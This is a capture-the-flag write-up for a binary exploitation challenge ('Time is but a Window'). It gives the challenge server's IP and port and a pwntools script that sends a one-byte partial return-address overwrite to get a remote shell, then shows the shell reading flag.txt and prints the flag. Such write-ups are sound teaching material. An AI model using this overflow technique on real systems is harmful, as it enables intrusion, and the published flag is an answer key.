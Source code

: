 # Exploit

## Time is but a Window

Think small, and simple. No fancy ROP chains or shellcode necessary, a single byte should be sufficient.

[Download exploit3.bin](https://uwspedu-my.sharepoint.com/:u:/g/personal/cjohnson_uwsp_edu/EaNv_nOgYrlPtujJa3Jv3rcBAt6DxbNU_wpfWSCTW-deBQ?e=EhYnoV)

Binary is running at 34.123.210.162 port 20234

---

### Solution

```python
# file: pay.py
from pwn import *

# p = process('exploit3.bin')
p = remote('34.123.210.162', 20234)

payload = b'AAAAAAAAAAAAAAAAAAAAAAAA\xcb'
p.recvuntil("name?: ")
p.sendline(payload)
p.interactive()
```


```bash
$ python pay.py        
[+] Opening connection to 34.123.210.162 on port 20234: Done
[*] Switching to interactive mode
Nice to meet you AAAAAAAAAAAAAAAAAAAAAAAA\xcb\xe3|%\x0eV!
$ ls
exploit3.bin
flag.txt
$ cat flag.txt
poctf{uwsp_71m3_15_4_f4c702} 
```

### poctf{uwsp_71m3_15_4_f4c702} 